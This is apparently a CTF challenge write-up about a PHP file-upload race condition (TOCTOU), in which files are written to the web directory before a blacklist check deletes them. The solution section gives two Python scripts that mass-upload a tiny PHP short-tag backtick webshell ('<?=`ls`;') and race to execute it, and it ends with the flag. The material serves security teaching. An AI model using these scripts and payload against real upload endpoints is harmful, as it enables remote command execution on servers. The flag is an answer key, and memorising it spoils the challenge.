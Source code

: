 # Resume

### Challenge Details

This challenge is testing on Race Condition/TOCTOU(Time-of-check Time-of-use) type vulnerability which can often be seen in the real world.

A simple web allows you upload tiny files(less than 10 bytes), with blacklist being used. However, the logic for processing the uploaded files is wrong. The program uploads user's file into web directory first, then check the extensions against the blacklist. If the file is not permitted to be uploaded, the program will delete it. 

There is a time gap when the malicious file is being uploaded, and being deleted. This time gap allows participants to execute limited command(due to size limited) on the server.

PHP short tag `<?=` is always enabled regardless of `short_open_tag` directives in php.ini, which is short for `<?php echo`, and backtick ` can be used to execute shell command.  

### Setup Instruction

```
docker-compose up -d
```

### Possible hints

> I think Usain Bolt runs faster than Justin Gatlin, but a leopard beats them all! 

> PHP is the best language! Very convenient when you have enabled short tag.

> And also when you have a shortcut for shell_exec.

### Key concept

- TOCTOU
- PHP short tag
- PHP backtick for executing shell command.

### Solution

**Race Condition**

two scripts, one to upload file, and one to access the uploaded file before it gets deleted.

uploader.py

```python
import hackhttp
from multiprocessing.dummy import Pool as ThreadPool


def upload(lists):
    hh = hackhttp.hackhttp()
    proxy_str = ('127.0.0.1', 8080)
    raw = """POST /upload.php HTTP/1.1
Host: asdfasdf
Content-Length: 324
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6eDS6MK3g1lytdOB
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.164 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close

------WebKitFormBoundary6eDS6MK3g1lytdOB
Content-Disposition: form-data; name="upload_file"; filename="test.php"
Content-Type: image/png

<?=`ls`;
------WebKitFormBoundary6eDS6MK3g1lytdOB
Content-Disposition: form-data; name="submit"

greyhats{trust_me_this_is_not_flag}
------WebKitFormBoundary6eDS6MK3g1lytdOB--
"""
    code, head, html, redirect, log = hh.http('http://asdfasdf/upload.php', raw=raw)
    #print(str(code) + "\r")


pool = ThreadPool(10)
pool.map(upload, range(10000))
pool.close()
pool.join()

```

visitor.py

```python
import hackhttp
from multiprocessing.dummy import Pool as ThreadPool


def visit(lists):
    hh = hackhttp.hackhttp()
    proxy_str = ('127.0.0.1', 8080)
    raw = """GET /upload/test.php HTTP/1.1
Host: asdfasdf
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.164 Safari/537.36
DNT: 1
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
"""
    code, head, html, redirect, log = hh.http('http://asdfasdf/upload/test.php', raw=raw)
    #print(str(code) + "\r")
    if code == 200:
        print(html)


pool = ThreadPool(30)
pool.map(visit, range(10000))
pool.close()
pool.join()

```

(or can just use burp intruder)

`ls` command will show a flag file, just visit that file to get the flag.

### Learning objective

the same as key concepts?

### Flag

```
greyhats{h0vv_d1d_y0u_byp455_17?!?!}
```
